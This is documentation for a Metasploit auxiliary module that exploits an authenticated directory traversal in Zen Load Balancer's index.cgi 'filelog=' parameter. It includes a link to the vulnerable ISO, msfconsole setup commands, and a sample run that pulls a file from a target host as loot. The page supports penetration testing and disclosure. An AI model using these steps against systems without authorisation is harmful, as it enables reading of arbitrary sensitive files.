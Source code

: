 ## Description

Zen load balancer before v3.10.1 is vulnerable to authenticated directory traversal. The flaw exists in 'index.cgi' not properly handling 'filelog=' parameter which allows a malicious actor to load arbitrary file path.

## Vulnerable Application

[Vulnerable ISO](https://sourceforge.net/projects/zenloadbalancer/files/Distro/zenloadbalancer-distro_3.10.1.iso/download)

## Verification Steps

1. `./msfconsole -q`
2. `set RHOSTS <rhost>`
3. `set RPORT <rport>`
4. `set FILEPATH <filepath>`
5. `set ssl <true/false>`
6. `set HttpPassword <admin>`
7. `set HttpUsername <admin>`
5. `run`

## Scenarios

```
msf > use auxiliary/scanner/http/zenload_balancer_traversal 
msf auxiliary(scanner/http/zenload_balancer_traversal) > set RHOSTS 192.168.1.101
RHOSTS => 192.168.1.101
msf auxiliary(scanner/http/zenload_balancer_traversal) > set SSL true 
SSL => true
msf auxiliary(scanner/http/zenload_balancer_traversal) > run
[*] Running module against 192.168.1.101

[+] File saved in: /Users/Dhiraj/.msf4/loot/20200412142620_default_192.168.1.101_zenload.http_196293.txt
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/zenload_balancer_traversal) >
```
